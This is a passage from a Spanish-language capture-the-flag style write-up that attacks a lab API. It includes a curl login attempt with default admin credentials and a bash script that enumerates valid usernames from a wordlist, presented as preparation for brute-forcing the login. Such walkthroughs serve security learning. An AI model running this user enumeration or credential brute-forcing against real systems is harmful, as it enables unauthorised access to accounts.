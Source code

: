 ```
[!] Keyboard interrupt detected, terminating.
Progress: 197492 / 882244 (22.39%)
===============================================================
Finished
===============================================================
```

Veremos que hemos encontrado `2` parametros llamados `user` y `/login`, si ponemos simplemente `/user` nos pondra que ingresemos un usuario valido a nivel de `API` y si entramos a `/login` nos pondra `Method Not Allowed` por lo que posiblemente tenga que hacerse de otra forma la peticion en vez de por `GET` por `POST`, vamos a investigar un poco.

Si en el `/login` ponemos esta estructura:

```shell
curl -X POST http://<IP>:12345/login \
     -H "Content-Type: application/json" \
     -d '{"username":"admin", "password":"admin"}'
```

Info:

```
{
  "message": "Invalid credentials"
}
```

Vemos que responde bien, por lo que ahora mismo nos interesa enumerar los usuarios para encontrar alguno y posteriormente realizar fuerza bruta en el `login` con dicho usuario, vamos a montarnos un script que haga fuerza bruta en el `/user` a ver que encontramos.

> userAttack.sh

```bash
#!/bin/bash

URL="http://<IP>:12345/user/"
WORDLIST="usuarios.txt"

echo "[*] Buscando usuarios válidos en $URL"
for user in $(cat $WORDLIST); do
    echo "[*] Probando usuario: $user"

    # Comprobar usuario en /user/
    response=$(curl -s -X POST "$URL" \
        -H "Content-Type: application/json" \
        -d "{\"username\":\"$user\"}")

    if [[ "$response" != *"Proporciona un usuario válido"* ]]; then
        echo "[+] Usuario válido encontrado: $user"

        # Probar GET en /user/<usuario>
        echo "[*] Probando GET en /user/$user"
        curl -s -X GET "$URL$user" -o /tmp/resp.txt
        if ! grep -q "User not found" /tmp/resp.txt; then
            echo "[+] Usuario con datos: $user"
            cat /tmp/resp.txt
            exit 0
        else
            echo "[-] $user no tiene datos (User not found)"
        fi
    fi
done
```
